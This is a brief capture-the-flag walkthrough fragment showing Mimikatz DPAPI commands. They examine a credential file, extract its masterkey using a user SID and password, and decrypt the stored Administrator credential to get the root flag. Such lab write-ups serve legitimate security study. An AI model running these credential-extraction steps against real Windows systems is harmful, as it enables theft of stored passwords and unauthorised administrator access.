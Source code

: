# Mimikatz

## OPTIONS:

```bash
dpapi::cred decrypts DPAPI saved credential such as RDP, Scheduled tasks, etc (cf. dumping DPAPI secrets).
dpapi::masterkey describes a Masterkey file and unprotects each Masterkey (key depending). In other words, it can decrypt and request masterkeys from active directory (cf. dumping DPAPI secrets).
```

***

**With mimikatz the credential file is examined, which reveals the corresponding masterkey (guidMasterKey)**

```bash
mimikatz# dpapi::cred /in:51AB168BE4BDB3A603DADE4F8CA81290
/sid:S-1-5-21-953262931-566350628-63446256-1001 /password:4Cc3ssC0ntr0ller
```

**The masterkey file is examined next, and the key is extracted.**

```bash
mimikatz# dpapi::masterkey /in:0792c32e-48a5-4fe3-8b43-d93d64590580
/sid:S-1-5-21-953262931-566350628-63446256-1001 /password:4Cc3ssC0ntr0ller
```

**With the masterkey in mimikatz’s cache, the credential blob can now be decrypted. It is now possible to open a telnet session as ACCESS\Administrator and gain the root flag.**

```bash
dpapi::cred /in:51AB168BE4BDB3A603DADE4F8CA81290
```
